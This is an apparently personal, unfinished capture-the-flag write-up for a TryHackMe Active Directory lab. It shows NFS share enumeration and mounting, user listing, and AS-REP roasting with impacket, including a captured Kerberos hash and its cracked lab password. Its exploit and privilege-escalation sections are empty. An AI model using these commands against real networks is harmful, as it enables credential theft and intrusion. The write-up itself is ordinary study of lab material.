 # Razorback Helped Through

Name: Razorback
Date:  /2022
Difficulty:  Medium
Description: These guys call themselves hackers. Can you show them who's the boss ??
Goals:  Chill out and have fun
Learnt:

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Razorblack/Screenshots/ping.png)

![](rpcclientdeadend.png)

![](2049mountage.png)

![](filtered.png)

[Newbie Tuesday](https://www.youtube.com/watch?v=sdxdSWpzF-M&t=970s)

Question-along:
- What ports are important: 445, 88, 3369 389, 636 
- AD requires DNS and hostname is important for kerberos
- crackmapexec
- null authentication
- nfs is file sharing

```bash
sudo showmount -e $ip
sudo mkdir /mnt/rb
sudo mount HAVEN-DC:/users /mnt/rb # DNS and AD
sudo su # to be root the travverse driectory 
umount $ip:/local/file/path		
```

Into the beast the first flag is here
![](mounting.png)

Exflitrating the spreadsheets full of names
![1000](theemployees.png)
sbradley.txt is the naming convention ; ljudmila vetrova AD admin 

![](learningkerbrute.png)
Have not used kerbrute in awhile

Pre-Authenication disabled in kerberos is timestamp to dc encrypted by the password hash of the user.
```bash
impacket-GetNPUsers -dc-ip HAVEN-DC -usersfile validusers.txt -format john raz0rblack.thm/
```
![](asreproasting.png)
```
$krb5asrep$twilliams@RAZ0RBLACK.THM:f46ff33ba011644211541533d0586e15$8fe6da6fb859d20d1e256ca394b0cbeab33f395874093f51a34b15031a305f6801724ac6a2f78c50f6d26933a036afd204198d4eb8efb5eaf5fd47197e9896fde4bb61b453906bd3d62b31893fab8a39874a21c0eb6dcc17c7606c2a7ec433339b8682e3a894a77794a6baf833153918b51133ad6ee8158a855a03bf563574a181f0060ee8373c39de0d675504339066c186a5a73aec3295d0443925cc82e97d1c25b19f219dc2896366c7954b955225c931e2534d1fd28a0fc8aeaceb7540a808704f80474586cd62b2696092765eedb2304cbe3df8cb4b91900d1428c4a0af0285c9ce19c2749e42d4666c53fca9d9 

roastpotatoes
```


![](cmetw.png)

![](weirdness.png)

![](TryHackMe/Markdown/Razorblack/Screenshots/ridbrute.png)

xyan1d3 is not pre-auth




## Exploit

## Foothold

## PrivEsc

      
